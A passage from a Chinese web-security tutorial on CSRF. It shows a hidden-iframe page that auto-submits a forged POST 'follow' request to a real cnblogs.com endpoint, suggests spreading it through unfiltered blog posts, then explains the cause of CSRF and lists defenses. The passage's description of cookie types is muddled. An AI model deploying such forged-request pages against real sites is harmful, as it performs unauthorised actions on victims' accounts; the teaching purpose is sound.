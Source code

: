 展示页面(test)：
```
    <!DOCTYPE HTML>
    <html lang="en-US">
    <head>
    <title>CSRF SHOW</title>
    </head>
         <body>
              <iframe style="display:none;" src="test2.html"></iframe>
         </body>
    </html>
```
隐藏页面(test2)：
```
    <!DOCTYPE HTML>
    <html lang="en-US">
    <head>
    <title>CSRF GET</title>
    <body>
         <form  name="form1" action="http://www.cnblogs.com/mvc/Follow/FollowBlogger.aspx" method="post">
              <input type="hidden" name="blogUserGuid" value="4e8c33d0-77fe-df11-ac81-842b2b196315"/>
              <input type="submit" value>
         </form>
         <script>
              document.forms.form1.submit();
         </script>
    </body>
    </html>
```
#### 进阶版
如果博客园还是有一个加关注的接口,但是已经限制POST,但博文内容是直接贴进HTML(未过滤),那就遭受XSS攻击。只要把上面的代码直接嵌入博文,只要有人打开过这篇博文就会自动的关注,这种组合攻击的方式叫XSRF。

### CSRF攻击的本质原因
CSRF攻击是源于Web的隐式身份验证机制。Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器,但却无法保证该请求是用户批准发送的。CSRF攻击的一般是由服务端解决。

### CSRF工具的防御手段
1. 尽量使用POST，限制GET

GET接口太容易被拿来做CSRF攻击，看第一个示例就知道，只要构造一个img标签，而img标签又是不能过滤的数据。接口最好限制为POST使用，GET则无效，降低攻击风险。

当然POST并不是万无一失，攻击者只要构造一个form就可以，但需要在第三方页面做，这样就增加暴露的可能性。
2. 浏览器Cookie策略

IE6、7、8、Safari会默认拦截第三方本地Cookie（Third-party Cookie）的发送。但是Firefox2、3、Opera、Chrome、Android等不会拦截，所以通过浏览器Cookie策略来防御CSRF攻击不靠谱，只能说是降低了风险。

PS：Cookie分为两种，Session Cookie（在浏览器关闭后，就会失效，保存到内存里），Third-party Cookie（即只有到了Exprie时间后才会失效的Cookie，这种Cookie会保存到本地）。

PS：另外如果网站返回HTTP头包含P3P Header，那么将允许浏览器发送第三方Cookie。
3. 加验证码
